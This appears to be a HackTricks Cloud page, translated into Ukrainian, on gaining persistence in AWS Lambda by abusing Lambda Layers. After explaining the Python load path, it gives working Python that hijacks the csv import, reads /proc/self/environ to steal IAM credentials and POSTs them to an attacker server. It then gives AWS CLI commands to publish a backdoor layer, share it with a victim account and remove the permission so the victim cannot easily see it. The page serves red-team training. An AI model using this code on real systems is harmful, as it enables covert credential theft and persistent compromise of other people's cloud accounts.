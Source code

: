 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambda layer - це архів .zip, який **може містити додатковий код** або інший контент. Шар може містити бібліотеки, [кастомний runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), дані або конфігураційні файли.

Можна включити до **п'яти шарів на функцію**. Коли ви включаєте шар у функцію, **вміст витягується до каталогу `/opt`** в середовищі виконання.

За **замовчуванням** створені вами **шари** є **приватними** для вашого облікового запису AWS. Ви можете вибрати **поділитися** шаром з іншими обліковими записами або **зробити** шар **публічним**. Якщо ваші функції використовують шар, опублікований іншим обліковим записом, ваші функції можуть **продовжувати використовувати версію шару після його видалення або після відкликання вашого дозволу на доступ до шару**. Однак ви не можете створити нову функцію або оновити функції, використовуючи видалену версію шару.

Функції, розгорнуті як контейнерне зображення, не використовують шари. Замість цього ви упаковуєте свій улюблений runtime, бібліотеки та інші залежності в контейнерне зображення під час його створення.

### Python load path

Шлях завантаження, який Python буде використовувати в lambda, є наступним:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Перевірте, як **другу** та третю **позиції** займають каталоги, де **lambda layers** розпаковують свої файли: **`/opt/python/lib/python3.9/site-packages`** та **`/opt/python`**

{% hint style="danger" %}
Якщо зловмисник зміг **внедрити** використану **lambda layer** або **додати одну**, яка буде **виконувати довільний код, коли завантажується загальна бібліотека**, він зможе виконувати шкідливий код з кожним викликом lambda.
{% endhint %}

Отже, вимоги такі:

* **Перевірте бібліотеки**, які **завантажуються** кодом жертви
* Створіть **проксі-бібліотеку з lambda layers**, яка буде **виконувати користувацький код** та **завантажувати оригінальну** бібліотеку.

### Завантажені бібліотеки

{% hint style="warning" %}
Коли я зловживав цією технікою, я зіткнувся з труднощами: деякі бібліотеки **вже завантажені** в середовищі виконання python, коли ваш код виконується. Я очікував знайти такі речі, як `os` або `sys`, але **навіть бібліотека `json` була завантажена**.\
Щоб зловживати цією технікою збереження, код повинен **завантажити нову бібліотеку, яка не завантажена**, коли код виконується.
{% endhint %}

З таким кодом на python можливо отримати **список бібліотек, які попередньо завантажені** в середовищі виконання python в lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
І це **список** (перевірте, що такі бібліотеки, як `os` або `json`, вже є)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
І це список **бібліотек**, які **lambda включає за замовчуванням**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Задній хід в Lambda Layer

У цьому прикладі припустимо, що цільовий код імпортує **`csv`**. Ми будемо **заднім ходом імпортувати бібліотеку `csv`**.

Для цього ми створимо директорію csv з файлом **`__init__.py`** в ній у шляху, який завантажується lambda: **`/opt/python/lib/python3.9/site-packages`**\
Тоді, коли lambda буде виконана і спробує завантажити **csv**, наш **файл `__init__.py` буде завантажений і виконаний**.\
Цей файл повинен:

* Виконати наш payload
* Завантажити оригінальну бібліотеку csv

Ми можемо зробити обидва з:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Тоді створіть zip з цим кодом за шляхом **`python/lib/python3.9/site-packages/__init__.py`** і додайте його як шар lambda.

Ви можете знайти цей код за посиланням [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Інтегрований payload **надішле IAM креденціали на сервер ПЕРШИЙ РАЗ, коли його викликають, або ПІСЛЯ скидання контейнера lambda** (зміна коду або холодна lambda), але **інші техніки** такі як наступні також можуть бути інтегровані:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Зовнішні шари

Зверніть увагу, що можливо використовувати **шари lambda з зовнішніх облікових записів**. Більше того, lambda може використовувати шар з зовнішнього облікового запису, навіть якщо у нього немає дозволів.\
Також зверніть увагу, що **максимальна кількість шарів, які може мати lambda, становить 5**.

Отже, для покращення універсальності цієї техніки зловмисник може:

* Задній доступ до існуючого шару користувача (нічого не є зовнішнім)
* **Створити** **шар** у **своєму обліковому записі**, надати **обліковому запису жертви доступ** до використання шару, **налаштувати** **шар** у Lambda жертви та **видалити дозвіл**.
* **Lambda** все ще зможе **використовувати шар**, а **жертва не** матиме жодного простого способу **завантажити код шарів** (окрім отримання rev shell всередині lambda)
* Жертва **не побачить зовнішні шари**, використані з **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

